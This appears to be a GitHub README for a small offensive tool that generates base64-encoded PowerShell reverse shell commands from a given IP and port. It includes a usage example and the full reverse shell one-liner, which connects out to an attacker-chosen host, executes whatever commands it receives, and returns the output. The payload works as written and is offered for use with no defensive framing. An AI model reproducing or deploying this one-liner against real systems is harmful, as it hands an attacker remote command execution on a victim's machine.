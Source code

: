 # psh_reverse_OneLine
Generate the command to make a powershell revershell (the one liner encoded in base64)

syntax:
	--help or -h	print manual
	--ip or -i	specify IP
	--port or -p	specify port
Example:
	python3 psh_reverse_OneLine.py -i 192.168.1.2 -p 4444
	
FYI, the powershell reverse shell one liner as below:

$client = New-Object System.Net.Sockets.TCPClient("<your IP>", <your port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
